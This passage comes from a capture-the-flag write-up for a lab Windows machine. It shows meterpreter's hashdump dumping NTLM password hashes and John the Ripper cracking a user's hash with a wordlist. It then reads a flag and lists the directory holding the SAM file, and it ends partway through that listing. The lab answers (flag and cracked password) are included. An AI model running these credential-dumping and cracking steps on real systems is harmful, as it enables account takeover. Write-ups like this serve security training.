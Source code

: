## Get Users Hashes

```js
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
meterpreter > 
```

### Crack User Hashes

```js 
💻 T4T4R1S 🌐 | Local IP ➜ 192.168.1.4 | 🥷 VPN IP ➜ 10.11.139.85
👀  ➜ ~ echo 'ffb43f0de35be4d9917ac0cc8ad57f8d' > hash.txt
💻 T4T4R1S 🌐 | Local IP ➜ 192.168.1.4 | 🥷 VPN IP ➜ 10.11.139.85
👀  ➜ ~ john --format=NT hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
alqfna22         (?)
1g 0:00:00:07 DONE (2025-08-06 11:27) 0.1377g/s 1405Kp/s 1405Kc/s 1405KC/s alr1979..alpus
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed. 
💻 T4T4R1S 🌐 | Local IP ➜ 192.168.1.4 | 🥷 VPN IP ➜ 10.11.139.85
👀  ➜ ~ 
```

## The Password for Jon is `alqfna22`

## Time to Get All Flags

### flag1 in C Directory:

```js
meterpreter > pwd
C:\
meterpreter > cat flag1.txt
`flag{access_the_machine}`
```

### flag2 in C:\Windows\System32\config\SAM:

```js
meterpreter > cd Windows\\System32\\config\\
meterpreter > ls
Listing: C:\Windows\System32\config
===================================

Mode            Size      Type  Last modified           Name
----            ----      ----  -------------           ----
100666/rw-rw-r  28672     fil   2018-12-12 23:00:40 +0  BCD-Template
w-                              000
100666/rw-rw-r  25600     fil   2018-12-12 23:00:40 +0  BCD-Template.LOG
w-                              000
100666/rw-rw-r  18087936  fil   2025-08-06 10:11:03 +0  COMPONENTS
w-                              100
100666/rw-rw-r  1024      fil   2011-04-12 09:32:10 +0  COMPONENTS.LOG
w-                              100
100666/rw-rw-r  13312     fil   2025-08-06 10:11:03 +0  COMPONENTS.LOG1
w-                              100
100666/rw-rw-r  0         fil   2009-07-14 03:34:08 +0  COMPONENTS.LOG2
w-                              100
```